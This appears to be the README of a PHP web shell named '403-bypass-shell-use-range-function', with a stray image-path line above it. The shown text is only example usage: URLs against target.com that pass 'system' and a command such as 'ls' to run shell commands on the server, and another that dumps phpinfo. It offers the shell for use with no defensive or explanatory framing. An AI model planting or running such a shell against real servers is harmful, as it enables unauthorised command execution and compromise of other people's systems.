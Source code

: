 # 403-bypass-shell-use-range-function

## Example Usage
```
http://target.com/ecchi.php?a=system&ecchi[]=ls

get phpinfo
http://target.com/ecchi.php?a=phpinfo&ecchi[]=-3
```
